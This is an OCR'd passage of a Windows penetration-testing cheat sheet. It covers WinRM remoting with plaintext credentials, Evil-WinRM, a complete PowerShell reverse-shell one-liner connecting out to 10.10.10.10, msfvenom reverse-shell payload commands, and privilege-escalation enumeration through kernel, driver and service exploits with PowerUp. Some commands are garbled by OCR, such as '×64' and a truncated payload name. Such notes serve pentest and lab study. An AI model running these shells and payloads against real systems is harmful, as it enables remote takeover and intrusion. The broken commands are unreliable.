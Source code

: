 Create a PowerShell remoting session via WinRM
1. `$password = ConvertTo-SecureString <password> -AsPlainText -Force`
2. `$cred = New-Object System.Management.Automation.PSCredential("<password>", $password)`
3. `Enter-PSSession -ComputerName <computer_name> -Credential $cred`

Check also:
- [Windows Reverse Shells Cheatsheet](https://podalirius.net/en/articles/windows-reverse-shells-cheatsheet/)
- [Evil-WinRM](https://github.com/Hackplayers/evil-winrm)
  - `evil-winrm -i <IP> -u <username> -p <password>`
- [powershell_reverse_shell.ps1](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3)
  ```powershell
  # Nikhil SamratAshok Mittal: http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html

  $client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
  ```

Other shells with msfvenom
- `msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=8444 EXITFUNC=thread -f exe -o shell.exe`
- `msfvenom -p windows/×64/shell_reverse_tcp LHOST=<IP> LPORT=445 -f exe -e 64/xor -o shell.exe`
- `msfvenom -f psh-cmd -p windows/shell_reverse_tc LHOST=tun0 LPORT=8443 -o rev.ps1`
- `msfvenom -f ps1 -p windows/shell_reverse_tcp LHOST=tun0 LPORT=8443 -o rev.ps1`
- `msfvenom -p windows/shell_reverse_tcp --list formats`
- `msfvenom -p windows/shell_reverse_tcp --list-options`

 
### Kernel Exploits

1. Save the output of the `systeminfo` command: `systeminfo > systeminfo.txt`
   - Try also the command: `systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"`
2. Use it with [Windows Exploit Suggester](https://github.com/bitsadmin/wesng) to find potential exploits: `python wes.py systeminfo.txt -i 'Elevation of Privilege' --exploits-only | less`
   - See also: [Watson](https://github.com/rasta-mouse/Watson)
3. See [windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits)

### Driver Exploits
1. Enumerate the drivers that are installed on the system: `driverquery /v`
2. Search in the Exploit Database

### Service Exploits

Note: to find running services, use this command from the powershell: `Get-Service` or `Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}`

**PowerUp**
- `Get-ServiceUnquoted -Verbose` services with unquoted paths and a space in their name
- `Get-ModifiableServiceFile -Verbose` services where the current user can write to its binary path or change arguments to the binary
- `Get-ModifiableService -Verbose` services whose configuration current user can modify
